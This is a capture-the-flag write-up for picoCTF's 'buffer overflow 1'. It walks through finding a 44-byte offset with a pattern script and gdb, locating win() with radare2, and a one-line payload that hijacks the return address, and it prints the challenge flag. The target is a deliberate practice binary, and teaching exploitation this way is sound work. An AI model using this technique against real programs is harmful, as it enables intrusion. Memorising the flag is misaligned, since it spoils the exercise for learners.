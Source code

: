 #buffer overflow 1
That last one was pretty easy it looks like we have to control the return address this time.
Let's see if there is anything to make our lives easier in the source.

```
#define BUFSIZE 32

void win() {                                                                                                                                                                                                     
  char buf[FLAGSIZE];                                                                                                                                                                                            
  FILE *f = fopen("flag.txt","r");                                                                                                                                                                               
  if (f == NULL) {                                                                                                                                                                                               
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");                                                                            
    exit(0);                                                                                                                                                                                                     
  }
```
Looks like we have to jump to the win function with a buffer size of 32
Let's write a quick python script to do some debugging:
```
import sys

for i in range(26):
 sys.stdout.write(chr(i+0x41)*4)
```
This will print 4 of each letter of the alphabet to make our lives alittle easier when debugging with gdb let's first write it to a file
```
python flooder.py > out
```
after running it through gdb we find that eip is flooded with 0x4c4c4c4c (LLLL) so let's use some math to find the distance
```
echo $((0x4c-0x41))
11
```
11*4 = 44 so our buffer is 44 now we just need to find the location of win so we can call it.
Let's check it out in radare2
```
[0x080484d0]> ? sym.win
134514123 0x80485cb 01001102713 128.3M 804000:05cb 134514123 "\xcb\x85\x04\b" 0b00001000000001001000010111001011 134514123.0 134514128.000000f 134514123.000000 0t100101010000200120
```
Sweet it's located at 0x80485cb time to write our exploit!

```
$ python -c 'print("X"*44+"\xcb\x85\x04\x08")' | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy56a7b196}Segmentation fault (core dumped)
```

Killing it!
